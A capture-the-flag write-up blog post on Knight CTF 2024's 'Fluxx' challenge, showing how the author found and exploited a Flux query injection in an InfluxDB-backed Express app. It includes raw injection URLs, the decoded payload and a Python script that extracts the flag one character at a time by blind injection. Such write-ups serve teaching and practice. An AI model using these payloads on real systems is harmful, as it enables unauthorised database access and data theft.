 ```yaml
---
layout: post
title: "InfluxDB NoSQL blind SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
description: "Performing blind SQL injection in NoSQL with InfluxDB in a CTF challenge"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


This is the challenge:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png" alt="Response headers showing X-Powered-By: Express"/>

One of our team member finds <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection">book.hacktricks.xyz/pentesting-web/nosql-injection</a>, and using that cheatsheeet (which I recommend using because it is very useful), finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an error saying <code>Expected RPAREN, got EOF</code>

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="/assets/img/expected rparen got eof error.webp" alt="DuckDuckGo search results for the error"/>

This also matches up with the challenge name and description:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql" rel="noopener">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="/assets/img/influxdb knightctf challenge console output.webp" alt="Console output"/>

So I went back to Burp Suite and tried it again with the K

<img src="/assets/img/burp suite influxdb knightctf.webp" alt="Burp Suite output showing the flag as KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}"/>

The flag is <code>KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}</code> according to the output of this web request. This flag is correct when submitted:

<img src="/assets/img/fluxx challenge correct.webp" alt='Challenge showing "Correct" message after submitting flag'/>

This is the SQL injection payload with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls <code>buckets()</code> to list buckets and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name (in the output we got in Burp Suite, I'm not sure if some kind of syntax error or <code>die()</code> is what caused the error that included the flag, but it doesn't really matter). The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine as the regular expression.